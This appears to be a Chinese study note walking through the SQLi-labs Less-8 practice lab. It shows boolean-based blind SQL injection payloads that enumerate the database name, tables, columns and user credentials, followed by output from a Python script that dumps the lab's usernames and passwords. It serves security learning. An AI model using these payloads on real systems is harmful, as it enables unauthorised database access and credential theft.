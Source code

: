 ```yaml
---
title: less8
url: https://www.yuque.com/u29002979/ep2zrx/spy5gva53wcy2v2s
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1'`没有报错显示，报错注入不能够实现注入了。
`?id=1`显示You are in...........
&#x20;对和错返回不同的页面回显，可以采用**布尔盲注**的方式， <a name="WUqxX"></a>

# 布尔盲注

<a name="MJTYd"></a>

## 判断字段数

`?id=1' order by 4 --+`没有显示报错
`?id=1' order by 3 --+`显示You are in
&#x20;由此可以判断**字段数为3  ** <a name="cU19o"></a>

## 判断数据库名称长度

`?id=-1 or length(database())>8 --+`无内容
`?id=-1 or length(database())=8`有内容
说明**数据库长度为8**

> 一般采用逻辑或，因为无法确保前面的条件一定为真

<a name="frb3M"></a>

### 逐一猜解数据库名称

<a name="a5hHH"></a>

#### ascii表（部分）

| 97 | a |
| --- | --- |
| 98 | b |
| 99 | c |
| 100 | d |
| 101 | e |
| 102 | f |
| 103 | g |
| 104 | h |
| 105 | i |
| 106 | j |
| 107 | k |
| 108 | l |
| 109 | m |
| 110 | n |
| 111 | o |
| 112 | p |
| 113 | q |
| 114 | r |
| 115 | s |
| 116 | t |
| 117 | u |
| 118 | v |
| 119 | w |
| 120 | x |
| 121 | y |
| 122 | z |

`?id=-1' or ascii(substr(database(),1,1))>115--+`无
`?id=-1' or ascii(substr(database(),1,1))=115--+`有
第一个字符是s
...
或者
` ?id=-1' or **ascii**(mid(database(),1,1))=115--+`有&#x20;
...
或者
`?id=-1' or mid(database(),1,1)='s'--+ `有
...

> **MID函数**表示按照指定的条件对字符串进行截取。
> 语法结构：=MID(目标单元格，开始位置，截取长度)
> 注意：该函数的提取方法是从左往右提取指定的数据。

<br />
<a name="SzUFc"></a>
## 猜解数据表名称
`?id=-1' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101--+`<br />第一个字符是e
<a name="Y2AQJ"></a>

## 猜解字段名称

`?id=-1' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+`<br />第一个字符是i
<a name="RNwwH"></a>

## 猜解字段内容

`?id=-1' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+`<br />第一个字符是D

对于布尔盲注的问题，一般采用脚本进行猜解或者使用sqlmap\ <a name="kRQp0"></a>

# 使用python布尔盲注脚本

```bash
┌──(root?guoyx)-[/home/kali/sql-python]
└─# python3 bool-blind.py    
[-]开始测试数据库名长度.......
[+]数据库长度：8

[-]开始测试数据库名.......
[+]数据库名：security

开始测试security数据库有几张表........
[+]security库一共有4张表

[-]开始猜解表名.......
第1张表名长度：6
[+]：emails
第2张表名长度：8
[+]：referers
第3张表名长度：7
[+]：uagents
第4张表名长度：5
[+]：users

[+]security库下的4张表：['emails', 'referers', 'uagents', 'users']

[-]开始猜解每张表的字段数：.......
[+]emails表	2个字段
[+]referers表	3个字段
[+]uagents表	4个字段
[+]users表	3个字段

[+]表对应的字段数：[2, 3, 4, 3]

[-]开始猜解每张表的字段名.......

[+]emails表的字段：
[+]：id
[+]：email_id

[+]referers表的字段：
[+]：id
[+]：referer
[+]：ip_address

[+]uagents表的字段：
[+]：id
[+]：uagent
[+]：ip_address
[+]：username

[+]users表的字段：
[+]：id
[+]：username
[+]：password

[-]对users表的['id', 'username', 'password']字段进行爆破.......


[+]users表中的id字段有以下13条数据：
[+]1
[+]2
[+]3
[+]4
[+]5
[+]6
[+]7
[+]8
[+]9
[+]10
[+]11
[+]12
[+]14

[+]users表中的username字段有以下13条数据：
[+]Dumb
[+]Angelina
[+]Dummy
[+]secure
[+]stupid
[+]superman
[+]batman
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dhakkan
[+]admin4

[+]users表中的password字段有以下13条数据：
[+]Dumb
[+]I-kill-you
[+]p@ssword
[+]crappy
[+]stupidity
[+]genious
[+]mob!le
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dumbo
[+]admin4
```
